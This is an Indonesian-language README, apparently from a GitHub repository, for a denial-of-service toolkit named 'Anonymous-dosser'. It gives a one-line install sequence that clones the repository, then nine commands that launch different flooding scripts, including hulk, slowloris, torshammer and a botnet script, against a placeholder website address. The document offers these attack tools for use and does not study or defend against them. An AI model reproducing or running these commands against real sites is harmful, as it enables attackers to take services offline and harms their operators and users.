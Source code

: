 # cara menjalankan TOOl Anonymous-dosser

ketikan ini di terminal linux kalian 

1. sudo apt-get update && sudo apt-get upgrade && sudo apt-get install git && sudo apt-get install python && sudo apt-get install python && sudo apt-get install python2 && sudo apt-get install python3 && git clone https://github.com/Cyberskulls/Anonymous-dosser.git && cd Anonymous-dosser

dan disini terserah kali mau gunain Ddos yang mana ini sebagai contohnya (ketikan ini di terminal linux kalian)

python saphyra.py http://www.TARGET.COM

python hulk.py http://www.TARGET.COM

python akira.py http://www.TARGET.COM

python botnet.py http://www.TARGET.COM

python httpdoser.py http://www.TARGET.COM

perl slowloris.pl -dns www.TARGET.COM

python sadboys.py http://www.TARGET.COM

python sadattack.py http://www.TARGET.COM

python torshammer.py -t www.TARGET.COM -r 10000
